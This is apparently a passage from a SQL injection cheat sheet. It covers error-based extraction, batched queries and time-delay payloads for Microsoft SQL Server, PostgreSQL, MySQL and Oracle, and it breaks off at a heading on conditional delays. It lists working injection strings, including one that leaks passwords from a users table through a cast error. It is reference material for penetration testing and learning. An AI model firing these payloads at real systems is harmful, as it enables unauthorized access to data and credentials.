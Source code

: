 ## Extracting data via visible error messages

You can potentially elicit error messages that leak sensitive data returned by your malicious query.

|   |   |
|---|---|
|Microsoft|`SELECT 'foo' WHERE 1 = (SELECT 'secret')      > Conversion failed when converting the varchar value 'secret' to data type int.`|
|PostgreSQL|`SELECT CAST((SELECT password FROM users LIMIT 1) AS int)      > invalid input syntax for integer: "secret"`|
|MySQL|`SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')))      > XPATH syntax error: '\secret'`|

## Batched (or stacked) queries

You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

|   |   |
|---|---|
|Oracle|`Does not support batched queries.`|
|Microsoft|`QUERY-1-HERE; QUERY-2-HERE   QUERY-1-HERE QUERY-2-HERE`|
|PostgreSQL|`QUERY-1-HERE; QUERY-2-HERE`|
|MySQL|`QUERY-1-HERE; QUERY-2-HERE`|

#### Note

With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

## Time delays

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

|   |   |
|---|---|
|Oracle|`dbms_pipe.receive_message(('a'),10)`|
|Microsoft|`WAITFOR DELAY '0:0:10'`|
|PostgreSQL|`SELECT pg_sleep(10)`|
|MySQL|`SELECT SLEEP(10)`|

## Conditional time delays
